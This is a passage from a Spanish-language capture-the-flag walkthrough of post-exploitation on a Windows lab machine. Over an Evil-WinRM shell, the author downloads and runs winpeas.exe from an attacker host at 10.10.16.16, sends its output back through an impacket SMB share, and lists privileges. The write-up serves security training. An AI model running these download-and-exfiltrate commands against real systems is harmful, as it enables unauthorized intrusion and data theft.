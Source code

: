 ```
# python -m http.server 80
```

Desde la máquina víctima ejecutamos este comando para que nos envíe el archivo al escritorio de nuestro usuario

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> Invoke-WebRequest -Uri "http://10.10.16.16/winpeas.exe" -OutFile "$env:USERPROFILE\Desktop\winpeas.exe"
```

Almacenamos el output de winpeas en un archivo de texto

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ./winpeas.exe > output.txt
```

Nos vamos a enviar este archivo a nuestra máquina linux, lo primero es montarnos un servidor smb

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Desde la máquina víctima nos enviamos el output a nuestro equipo, analizando el output no he visto nada interesante así que vamos a hacerlo de forma manual

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> copy output.txt \\10.10.16.16\smbFolder\output.txt
```

Otra opción sería hacer lo siguiente

```
# *Evil-WinRM* PS C:\Users\svc-printer\Desktop> download output.txt
                                        
Info: Downloading C:\Users\svc-printer\Desktop\output.txt to output.txt
                                        
Info: Download successful!
```

`Listamos` los `privilegios` de nuestro `usuario`

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```
